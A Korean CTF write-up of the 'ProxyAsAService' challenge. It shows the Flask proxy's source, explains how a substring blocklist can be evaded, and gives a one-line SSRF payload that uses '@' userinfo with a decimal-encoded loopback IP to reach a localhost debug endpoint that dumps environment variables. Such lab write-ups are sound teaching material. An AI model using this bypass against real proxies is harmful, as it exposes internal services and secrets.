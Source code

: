 # ProxyAsAService
- localhost:1337 로 접근해야 풀리는 문제

# Source Code Analysis
```
from flask import Blueprint, request, Response, jsonify, redirect, url_for
from application.util import is_from_localhost, proxy_req
import random
import os

SITE_NAME = 'reddit.com'

proxy_api = Blueprint('proxy_api', __name__)
debug = Blueprint('debug', __name__)

@proxy_api.route('/', methods=['GET', 'POST'])
def proxy():
    url = request.args.get('url')
    if not url:
        cat_meme_subreddits = [
            '/r/cats/',
            '/r/catpictures/',
            '/r/catvideos/',
        ]
        random_subreddit = random.choice(cat_meme_subreddits)
        return redirect(url_for('.proxy', url=random_subreddit))

    target_url = f'http://{SITE_NAME}{url}'
    response, headers = proxy_req(target_url)
    return Response(response.content, response.status_code, headers.items())


@debug.route('/environment', methods=['GET'])
@is_from_localhost
def debug_environment():
    environment_info = {
        'Environment variables': dict(os.environ),
        'Request headers': dict(request.headers),
    }
    return jsonify(environment_info)

```
- ```routes.py```의 내용을 보니 ```/debug/environment```에 GET 요청을 할 경우 ```os.environ```을 통해 환경변수를 리턴

```
from flask import request, abort
import functools
import requests

RESTRICTED_URLS = ['localhost', '127.', '192.168.', '10.', '172.']


def is_safe_url(url: str) -> bool:
    for restricted_url in RESTRICTED_URLS:
        if restricted_url in url:
            return False
    return True


def is_from_localhost(func):
    @functools.wraps(func)
    def check_ip(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return abort(403)
        return func(*args, **kwargs)
    return check_ip


def proxy_req(url: str):
    method = request.method
    headers = {
        key: value
        for key, value in request.headers
        if key.lower() in ['x-csrf-token', 'cookie', 'referer']
    }
    data = request.get_data()

    # 대상 URL 검사
    if not is_safe_url(url):
        return abort(403)

    response = requests.request(
        method,
        url,
        headers=headers,
        data=data,
        verify=False
    )

    # 리다이렉트된 URL 검사
    if not is_safe_url(response.url):
        return abort(403)

    return response, headers
```
- 미들웨어 함수의 내용은 위와 같다.
- 블랙리스트 ```RESTRICTED_URLS```를 우회해서 ```/debug/environment```에 로컬 호스트 아이피:1337로 접속하는 것이 목표다.

- 이때 ```SITE_NAME```이 상수로 지정되어 있고, ```target_url = f'http://{SITE_NAME}{url}``` 와 같이 사용된다.
- ```http://<SITE_NAME>@localhost:1337/debug/environment```와 같이 사용자 이름으로 인식되도록 하면 될 것 같다.

## PoC
- URL Format Bypass 기법을 활용하여 블랙리스트 우회
```
@2130706433:1337/debug/environment
```
![image](https://github.com/user-attachments/assets/3a3f1ab3-e841-41dc-bb5d-1a4e488f3e2f)
- 플래그 획득

